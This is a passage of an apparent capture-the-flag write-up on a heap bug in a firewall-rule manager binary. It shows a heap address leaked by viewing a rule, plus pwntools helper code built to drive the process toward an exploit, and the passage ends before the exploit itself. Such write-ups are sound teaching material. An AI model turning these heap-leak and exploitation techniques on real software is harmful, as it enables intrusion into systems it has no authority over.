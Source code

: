 ```
1. Create a firewall rule
2. View a firewall rule
3. Edit a firewall rule
4. Delete a firewall rule
5. Exit
> $ 2
Enter the firewall ID which you want to view:
$ 0
Your rule: p\x13VUU
---Choose your option:---
1. Create a firewall rule
2. View a firewall rule
3. Edit a firewall rule
4. Delete a firewall rule
5. Exit
> $  
```

Exactly what we expected, there's a heap address (`Your rule: p\x13VUU`) when we print out the content of rule 0!

```python
>>> hex(u64(b"p\x13VUU\x00\x00\x00"))
'0x5555561370'
>>> 
```

To be able to interact with the process more easily in preparation to developing an exploit, let's build some scaffolding:

```python
#!/usr/bin/env python3 
from pwn import *

def create(r, content):
    info(f"Creating chunk with contents {content}")
    r.recvuntil(b"5. Exit")
    r.sendline(b"1")
    r.recvline()
    r.send(content)
    r.recvline()

def edit(r, index, content):
    r.recvuntil(b"5. Exit\n")
    r.sendline(b"3")
    r.recvline()
    r.sendline(str(index).encode())
    r.recvline()
    r.send(content)


def delete(r, index):
    r.recvuntil(b"5. Exit\n")
    r.sendline(b"4")
    r.recvline()
    r.sendline(str(index).encode())
    r.recvline()

def view(r, index):
    r.recvuntil(b"5. Exit\n")
    r.sendline(b"2")
    r.recvline()
    r.sendline(str(index).encode())
    r.recvuntil(b"Your rule: ")
    return r.recvuntil(b"---Choose your option:---").split(b"---")[0]
```